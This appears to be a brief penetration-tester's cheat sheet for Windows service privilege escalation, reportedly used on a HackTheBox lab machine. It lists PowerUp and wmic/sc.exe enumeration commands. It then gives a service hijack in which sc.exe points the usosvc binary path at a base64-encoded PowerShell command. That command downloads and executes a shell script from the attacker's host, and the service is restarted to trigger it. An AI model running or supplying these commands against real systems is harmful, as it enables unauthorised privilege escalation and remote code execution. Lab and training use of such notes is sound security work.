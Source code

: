 - **via powerup.ps1**
```pwsh
.\PowerUp.ps1
```
```pwsh
Invoke-AllChecks
```

- **to find manual**
  
```pwsh
wmic service list brief
```

```pwsh
wmic service get name,displayname,pathname,startmode
```

- **powershell cmd when you get a service**

```pwsh
sc.exe qc <service-name>
```

### Used in HTB remote 

- **modify service**

```powershell
sc.exe config usosvc binpath= "cmd.exe /c powershell.exe -EncodedCommand aQBlAHgAIAAoAGkAdwByACAAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAzAC8AcwBoAGUAbABsAC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```
```powershell
sc.exe stop usosvc
```

```powershell
sc.exe start usosvc
```


